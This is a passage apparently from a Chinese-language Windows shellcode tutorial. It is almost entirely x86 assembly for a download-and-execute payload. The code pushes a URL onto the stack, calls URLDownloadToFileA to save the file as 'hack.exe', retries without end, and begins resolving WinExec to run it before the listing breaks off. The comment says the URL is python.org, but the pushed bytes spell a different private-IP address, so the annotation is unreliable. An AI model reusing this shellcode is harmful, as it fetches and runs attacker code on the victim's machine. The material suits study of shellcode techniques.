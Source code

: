   + 使用该函数进行[下载文件](https://www.exploit-db.com/shellcodes/13533)

    ```asm
    ;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
    download:
    pop eax
    xor ecx, ecx
    push ecx
    ; URL: https://www.python.org/ftp/python/3.8.3/python-3.8.3.exe
    push 0x6578652E         ; exe.
    push 0x74646573         ; tdes
    push 0x6F6F672F         ; oog/
    push 0x33312E36         ; 31.6
    push 0x352E3836         ; 5.86
    push 0x312E3239         ; 1.29
    push 0x312F2F3A         ; 1//:
    push 0x70747468         ; ptth
    push esp
    pop ecx                 ; save the URL string
    xor ebx, ebx
    push ebx
    ; save as hack.exe
    push 0x6578652E         ; exe.
    push 0x6B636168         ; kcah
    push esp
    pop ebx                 ; save the downloaded filename string
    xor edx, edx
    push edx
    push edx
    push ebx
    push ecx
    push edx
    mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
    call eax
    pop ecx
    add esp, 44
    xor edx, edx
    cmp eax, edx
    push ecx
    jnz download            ; if it fails to download , retry contineusly
    pop edx
    ```

  + 找到`WinExec`函数的入口地址，并调用该函数运行下载的文件，最后退出程序

    ```asm
    Create string 'WinExec\x00' on the stack and save its address to the stack-frame
    mov edx, 0x63657878     \
    shr edx, 8              ; Shifts edx register to the right 8 bits
    push edx                ; "\x00,cex"
    push 0x456E6957         ; EniW : 456E6957
    mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
    call findFunctionAddr   ; After Return EAX will = &WinExec
    